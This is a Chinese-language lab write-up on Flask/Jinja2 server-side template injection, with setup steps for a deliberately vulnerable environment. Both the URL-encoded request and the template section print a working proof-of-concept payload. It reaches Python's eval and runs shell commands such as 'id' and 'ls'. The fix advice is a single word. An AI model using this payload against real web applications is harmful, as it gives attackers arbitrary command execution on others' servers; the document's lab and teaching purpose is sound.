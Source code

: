 # <center>Flask(Jinja2)服务端模板注入漏洞</center> #

<center>![flask](pictures/flask.png)</center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 不安全的模板嵌入允许用户输入模板代码导致模板注入。
* 影响版本：

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;flask是一个python-web开发框架

&emsp;&emsp;该漏洞主要的产生原因是模板引用不当。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先我们看一下如何利用这个漏洞，打开ip:port  

<center>![flask](pictures/1.png)</center>


&emsp;&emsp;访问`http://ip:port/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`。  

<center>![flask](pictures/2.png)</center>


将上面id位置改成你要执行的linux命令，`ls`：

<center>![flask](pictures/3.png)</center>



### 源码解析
获取eval函数并执行任意python代码的POC:

```python

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

```





## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统[github](https://github.com/havysec/vulnerable-scene)  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装jinja2==2.9.6、flask==0.12.1环境，然后将源码导入到/app文件夹下。
* python app.py运行脚本即可。



### 4.3&emsp;漏洞复现 ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;过滤  
